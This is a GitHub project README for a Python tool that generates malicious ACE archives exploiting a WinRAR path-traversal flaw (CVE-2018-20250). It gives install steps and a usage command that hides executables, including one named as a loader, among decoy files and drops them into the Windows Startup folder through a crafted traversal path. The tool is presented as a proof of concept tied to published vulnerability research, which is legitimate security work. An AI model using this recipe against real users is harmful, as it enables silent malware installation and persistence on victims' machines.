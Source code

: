 # Evil-WinRAR-Generator
[![Python 3.6](https://img.shields.io/badge/python-3.6-yellow.svg)](https://www.python.org/downloads/release/python-360/)
 [![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://raw.githubusercontent.com/master/LICENSE) [![Twitter](https://img.shields.io/badge/twitter-@manulqwerty-blue.svg)](https://twitter.com/manulqwerty) 

Generator of malicious Ace files for WinRAR &lt; 5.70 beta 1

Vulnerability by [research.checkpoint.com](https://research.checkpoint.com/extracting-code-execution-from-winrar/)

**Developed by [@manulqwerty - IronHackers](https://ironhackers.es).**

Usage
----
Help:

`./evilWinRAR.py -h`

Generate a malicius archive:
> Rar filename: evil.rar

> Evil path: C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\

> Evil files: calc.exe , l04d3r.exe

> Good files: hello.txt , cats.jpeg
```bash
./evilWinRAR.py -o evil.rar -e calc.exe l04d3r.exe -g hello.txt cats.jpeg -p 'C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\'
```

Instalation
----
You can download Evil-WinRAR-Generator by cloning the [Git](https://github.com/manulqwerty/Evil-WinRAR-Gen.git) repository:
	
```bash
git clone https://github.com/manulqwerty/Evil-WinRAR-Gen.git
cd Evil-WinRAR-Gen && pip3 install -r requirements.txt
chmod +x evilWinRAR.py
```
	
Evil-WinRAR-Generator works out of the box with [Python](http://www.python.org/download/) version **3.x** on any platform.

Proof of Concept (CVE-2018-20250)
----
[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/eUsVHa_fxrA/0.jpg)](https://www.youtube.com/watch?v=eUsVHa_fxrA)

Screenshots
----
![Screenshot](https://ironhackers.es/wp-content/uploads/2019/02/2-4.png)
![Screenshot](https://ironhackers.es/wp-content/uploads/2019/02/1-4.png)

Credits
----
https://github.com/droe/acefile

https://github.com/WyAtu/CVE-2018-20250
